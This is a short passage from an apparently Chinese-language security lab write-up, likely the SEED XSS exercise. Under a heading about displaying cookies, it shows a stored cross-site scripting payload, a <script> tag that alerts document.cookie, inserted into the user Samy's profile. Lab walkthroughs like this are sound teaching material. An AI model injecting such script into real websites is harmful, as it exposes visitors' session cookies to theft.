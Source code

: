 保存后，看到已经生效

<img src="./../assets/post/images/SFbBuUe1gLlPAk7.png" alt="image-20210720162150326" style="zoom:67%;" />

# Task 2: Posting a Malicious Message to Display Cookies

这个 Task 用来熟悉如何获取 Cookie。修改 Samy 的 profile 如图所示

```html
<script>
    alert(document.cookie);
</script>
```

<img src="./../assets/post/images/5DSUAOiPZlbzHeC.png" alt="image-20210720162316732" style="zoom:67%;" />
